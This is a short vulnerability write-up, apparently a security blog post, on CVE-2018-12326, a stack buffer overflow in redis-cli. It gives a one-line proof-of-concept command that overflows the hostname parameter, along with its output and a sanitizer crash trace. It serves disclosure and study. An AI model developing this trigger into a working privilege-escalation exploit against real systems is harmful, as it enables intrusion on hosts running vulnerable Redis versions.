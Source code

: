 ```yaml
---
layout: post
title: "[CVE-2018-12326] Redis-cli Stack-based Buffer Overflow"
excerpt: "A trivial stack-based buffer overflow"
modified: 2018-06-13
categories: proof-of-concept
tags: ["redis"]
comments: true
---
```


[^1]: <https://raw.githubusercontent.com/antirez/redis/4.0/00-RELEASENOTES>
[^2]: <https://raw.githubusercontent.com/antirez/redis/5.0/00-RELEASENOTES>

# Overview
Buffer overflow in redis-cli of Redis version 3.2, 4.0, and 5.0 allows a local attacker to achieve code execution and escalate to higher privileges via a long string in the hostname parameter. [^1][^2]

# Proof-of-Concept
{% highlight bash %}
$ ./src/redis-cli -h `python -c 'print "A" * 300'`
Could not connect to Redis at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:6379: Name or service not known
{% endhighlight %}

# Crash Analysis
{% highlight bash %}
#0 0x4a4182 in vsnprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1566
#1 0x4a42d0 in snprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1637
#2 0x570159 in repl /home/user/redis/src/redis-cli.c:1624:5
#3 0x55ba77 in main /home/user/redis/src/redis-cli.c:6660:9
#4 0x7f6be5f6e82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#5 0x4247a8 in _start (/home/user/redis/src/redis-cli+0x4247a8)
{% endhighlight %}

# References